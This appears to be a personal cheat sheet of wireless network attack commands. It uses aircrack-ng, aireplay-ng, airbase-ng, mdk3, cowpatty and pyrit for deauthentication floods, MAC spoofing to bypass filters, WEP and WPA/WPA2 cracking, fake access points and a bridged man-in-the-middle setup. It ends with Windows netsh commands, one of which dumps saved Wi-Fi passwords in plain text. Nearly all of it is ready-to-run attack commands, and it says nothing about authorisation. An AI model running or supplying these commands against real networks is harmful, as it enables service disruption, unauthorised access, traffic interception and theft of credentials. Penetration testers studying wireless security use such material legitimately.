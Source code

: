 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**

2. ifconfig wlan0 up ---> **start the wireless card** 

3. airmon-ng start wlan0 <channel> ---> **monitor mode interface is created on top of the device for sniffing** 

**Check active Access points and the stations/clients connecting to it**

4. airodump-ng --band bn wlan0mon ---> **make the card hop through different channel and check wifi traffic**

5. mdk3 wlan0mon b -n baba ---> **Creating a fake AP broadcasting beacons with SSID baba**

**Finding Hidden SSIDs**
6. 

		a. Passive way - monitor the network for clients to connect
		b. active way - break all the connections between clients and Access point and further monitor the traffic for 				assocication traffic.
		
		(send the deauthentication notification packet to the clients)
		aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

		--deauth 0 will continously send deauth packets
		-D disable AP detection

7. Bypassing MAC filters

		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> **Trying a fake authentication using the wireless card when MAC 			filter is 	
		**off(open network)**
	
		b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> **To spoof a mac address and fool the AP 			to allow authentication**
		
8. Cracking Shared/WEP encyption
	
		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
		b. ifconfig at0 up  ---> Power up the soft interface created
		c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

		a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
		b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this 			command)
		c. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)

		a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
		b. use aircrack/ cowpatty along with the dictionary
		c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

		a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

		Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated 			PMKs.

		b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
		c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	**With Pyrit**

		d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
		e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

		f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
		
			or

		f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

		With Aircrack - analyze the handshake capture file

		g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

		a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
		b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
		c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

		**wpa_supplication.conf** 

		ctrl_interface=/var/run/wpa_supplicant
		ap_scan=1

		network={
		ssid="Pop"
		proto=WPA
		key_mgmt=WPA-PSK
		pairwise=CCMP TKIP
		group=CCMP TKIP WEP104 WEP40
		psk="boloTarara"
		priority=2
		}

	**command**
	
		wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

		a. netsh wlan show interfaces --> view all wifi interfaces

		b. netsh wlan show drivers  --> extract current wifi driver information

		c. netsh wlan show networks --> view available networks


		d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

		e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

		f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

		g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

		h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

		i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    		netsh wlan start hostednetwork






